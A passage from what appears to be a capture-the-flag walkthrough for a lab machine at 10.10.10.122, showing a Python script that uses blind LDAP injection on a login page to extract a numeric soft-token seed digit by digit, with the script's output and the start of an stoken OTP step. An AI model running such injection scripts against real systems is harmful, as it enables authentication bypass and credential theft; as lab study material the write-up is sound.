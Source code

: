       - `pager`
        ```py
        import requests as r
        import urllib.parse as u

        token = ""
        while( len(token)!=81 ):
            for i in range(0,10):

                ldap_injection = "ldapuser))(&(pager=%s%d*" % (token, i)
                data = { "inputUsername": u.quote(ldap_injection) }
                req = r.post("http://10.10.10.122/login.php", data=data)

                if "Cannot login" in req.text:
                    token = token + str(i)
                    print(token)
                    break

        print("[x] THE TOKEN IS " + token)
        ```
        - Run using `python3`:
          ```
          2
          28
          285
          2854
          28544
          285449
          2854494
          28544949
          285449490
          2854494900
          ...
          28544949001135715653165154565233557071316741144572714
          285449490011357156531651545652335570713167411445727140
          2854494900113571565316515456523355707131674114457271406
          28544949001135715653165154565233557071316741144572714060
          285449490011357156531651545652335570713167411445727140604
          2854494900113571565316515456523355707131674114457271406041
          ...
          28544949001135715653165154565233557071316741144572714060417214145671110271671700
          285449490011357156531651545652335570713167411445727140604172141456711102716717000
          [x] THE TOKEN IS 285449490011357156531651545652335570713167411445727140604172141456711102716717000
          ```
        __NOTE(S)__:
        - The `pager` attribute seems to contain the __token string__
        - The token string is `285449490011357156531651545652335570713167411445727140604172141456711102716717000`
        - This token is called a __*Pure Numeric CTF (Compressed Token Format) string*__

3. Login using the information found:
   1. Generate an OTP using the token string:
      ```sh
      stoken import --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000
      # Enter new password: 
      # Confirm new password: 
